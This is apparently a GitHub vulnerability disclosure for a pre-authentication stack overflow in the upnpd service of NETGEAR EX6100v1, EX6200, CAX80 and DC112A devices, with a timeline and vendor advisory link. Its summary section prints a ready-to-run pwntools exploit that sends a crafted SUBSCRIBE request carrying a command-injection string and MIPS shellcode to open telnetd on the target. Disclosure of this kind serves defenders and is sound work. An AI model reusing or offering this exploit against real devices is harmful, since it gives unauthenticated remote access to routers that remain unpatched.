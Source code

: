 # NETGEAR_stack_overflow



#### Impact products 

​	EX6100v1

​	EX6200

​	CAX80-V2.1.3.5

​	CAX80-V2.1.2.6

​	DC112A

#### Affect device firmware

Link:

​	https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.3.5.zip

​	https://www.downloads.netgear.com/files/GDC/CAX80/CAX80-V2.1.2.6.zip

​	...

#### Describ

​	A stack overflow vulnerability exists in the upnpd service, which may lead to the execution of arbitrary code without authentication

#### Detail (Listing with ex6100v1)

​	In the upnp_main function, the data size of 0x1fff is accepted and stored in v81.

<img src="./img/image-20211007164319530.png" alt="image-20211007164319530" style="zoom:50%;" />

​	Next, in the figure below, the function v81 variable is called as the first parameter

<img src="./img/image-20211007164612323.png" alt="image-20211007164612323" style="zoom:50%;" />

​	When processing subscribe and unsubscribe requests, you will enter the gena_http_method_check function a1 with the previous v81 parameter, and follow up this function 

<img src="./img/image-20211007164656273.png" alt="image-20211007164656273" style="zoom:50%;" />

​	This function copies the input to the stack through strcpy, and the data is larger than the buffer, resulting in stack overflow. Arbitrary code can be executed without authentication

<img src="./img/image-20211007164927729.png" alt="image-20211007164927729" style="zoom:50%;" />



<img src="./img/image-20211007165050190.png" alt="image-20211007165050190" style="zoom:50%;" />

#### Summary(Listing with ex6100v1)

​	Because the general upnpd service is started by default, it is very harmful and can cause the execution of arbitrary code. This exp can open the latest firmware of EX6100（https://www.netgear.com/support/product/EX6100.aspx#Firmware%20Version%201.0.2.28） Telnetd service for devices 

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
#request = 	request.ljust(0x1000,"a")
print len(request)
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
#payload+= "d"*0x18
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
p.send(request)
p.interactive()
```

#### Timeline

The manufacturer has issued relevant announcements：

​	https://kb.netgear.com/000064615/Security-Advisory-for-Pre-Authentication-Command-Injection-on-EX6100v1-and-Pre-Authentication-Stack-Overflow-on-Multiple-Products-PSV-2021-0282-PSV-2021-0288?article=000064615

**On October 1, 2021, the loopholes were discovered and the report was written**
**On October 7, 2021, a vulnerability report was submitted,**
**On February 4, 2022, the manufacturer issued an announcement**
**On February 6, 2022, the vulnerability was disclosed on GitHub**

